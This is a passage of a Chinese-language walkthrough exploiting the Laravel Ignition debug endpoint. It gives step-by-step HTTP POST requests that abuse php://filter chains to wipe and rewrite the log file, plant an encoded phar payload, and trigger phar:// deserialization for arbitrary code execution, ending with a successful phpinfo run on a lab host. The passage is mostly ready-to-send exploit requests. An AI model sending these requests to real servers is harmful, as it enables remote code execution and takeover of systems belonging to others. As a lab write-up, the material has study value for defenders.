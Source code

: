 （2）发送如下数据包，将Laravel的原日志文件laravel.log清空：

POST /_ignition/execute-solution HTTP/1.1 Host: 192.168.1.8:81 Content-Type: application/json Content-Length: 328 {   "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",   "parameters": {     "variableName": "username",     "viewFile": "php://filter/write=convert.iconv.utf-8.utf-16be|convert.quoted-printable-encode|convert.iconv.utf-16be.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"   } }

（3）发送如下数据包，给Log增加一次前缀，用于对齐：

POST /_ignition/execute-solution HTTP/1.1 Host: 192.168.1.8:81 Content-Type: application/json Content-Length: 163 {   "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",   "parameters": {     "variableName": "username",     "viewFile": "AA"   } }

（4）将之前生成的编码后的POC作为viewFile的值，发送数据包：

POST /_ignition/execute-solution HTTP/1.1 Host: 192.168.1.8:81 Content-Type: application/json Content-Length: 5058 {   "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",   "parameters": {     "variableName": "username",     "viewFile": "=50=00=44=00=39=00=77=00=61=00=48=00=41=00=67=00=58=00=31=00=39=00=49=00=51=00=55=00=78=00=55=00=58=00=30=00=4E=00=50=00=54=00=56=00=42=00=4A=00=54=00=45=00=......2B=00=57=00=61=00=63=00=4E=00=67=00=49=00=41=00=41=00=41=00=42=00=48=00=51=00=6B=00=31=00=43=00a"   } }

（5）发送如下数据包，清空对log文件中的干扰字符，只留下POC：

POST /_ignition/execute-solution HTTP/1.1 Host: 192.168.1.8:81 Content-Type: application/json Content-Length: 299 {   "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",   "parameters": {     "variableName": "username",     "viewFile": "php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"   } }

这一步可能会出现异常，导致无法正确清理Log文件。如果出现这种状况，可以重新从第一步开始尝试。

（6）使用phar://进行反序列化，执行任意代码（此时需要使用绝对路径）：

POST /_ignition/execute-solution HTTP/1.1 Host: 192.168.1.8:81 Content-Type: application/json Content-Length: 210 {   "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",   "parameters": {     "variableName": "username",     "viewFile": "phar:///var/www/storage/logs/laravel.log/test.txt"   } }

如下图所示，PHPINFO已成功执行，漏洞利用成功：

![img](assets/1700555904967-197955a7-44ae-443e-9f65-82a1dc115d83.jpeg)
